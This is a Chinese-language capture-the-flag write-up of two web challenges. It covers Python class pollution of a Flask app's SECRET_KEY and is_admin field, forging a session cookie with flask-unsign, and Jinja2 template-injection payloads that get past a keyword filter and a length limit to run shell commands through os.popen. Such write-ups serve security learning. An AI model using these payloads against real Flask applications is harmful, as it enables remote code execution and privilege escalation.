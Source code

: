 
### ez_inject {#ez-inject}

注册登录后看到提示，并且 Cookie 中会设置一个 JWT

```text
你觉得你能爆破出来密钥？我觉得吧不如去试着污染，在哪里呢？
登录还是注册?别忘了注册用户哦
```

那么考点自然是 Python 原型链污染（）和 Flask

tip: 实际上 Python 中并没有原型链这个概念，而是通过[特殊属性/方法](https://docs.python.org/zh-cn/3.13/reference/datamodel.html)达成类似原型链污染的攻击技巧

在注册接口可以通过发送以下数据来篡改 Flask 的 SECRET_KEY，注意需要修改成 JSON 格式，因为需要利用对字典的 merge 操作来“污染原型链”

```json
{"username": "hacker", "password": "qwe123", "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "qwe123"}}}}}
```

官方 wp 是像这样修改 SECRET_KEY 来获取管理员权限，但其实可以直接“污染” is_admin

```json
{"username": "hacker", "password": "qwe123", "is_admin": 1}
```

然后修改 JWT 的 is_admin 字段获取管理员权限

```bash
flask-unsign --cookie "{'is_admin': 1, 'username': 'hacker'}" --secret qwe123 --sign
# eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJoYWNrZXIifQ.Z1LH_w.xUsHvKI86GWV5Yw5uFA7Gec99o4
```

拿到管理员权限后可以在 /secret 中看到提示

```text
You can try to inject on "echo"!
```

经过尝试确认 echo 接口存在 SSTI，在注入时不需要外面的大括号，而且 waf 拦截了一些关键字。最终通过以下 payload 拿到 flag：

```text
self['__in''it__']['__glo''bals__']['__buil''tins__']['__imp''ort__']('os').popen('ca''t /flag').read()
```


### ezzz_ssti {#ezzz-ssti}

Jinja2 SSTI，但是限制了 payload 的长度

绕过长度限制可以参考：<https://blog.csdn.net/weixin_43995419/article/details/126811287>

Flask 中有一个全局对象 config，是一个继承于字典的数据类，用来保存一些配置信息，可以通过它的 update 方法将任意对象设置到 config 的属性中。那么，我们就可以将过长的 payload 分段保存到 config 中，并设置一个很短的属性名，以此来绕过长度限制

bypass：

```nil
{{config.update(c=config.update)}}
{{config.update(g="__globals__")}}
{{config.c(f=lipsum[config.g])}}
{{config.c(o=config.f.os)}}
{{config.c(p=config.o.popen)}}
{{config.p("cat /f*").read()}}
```
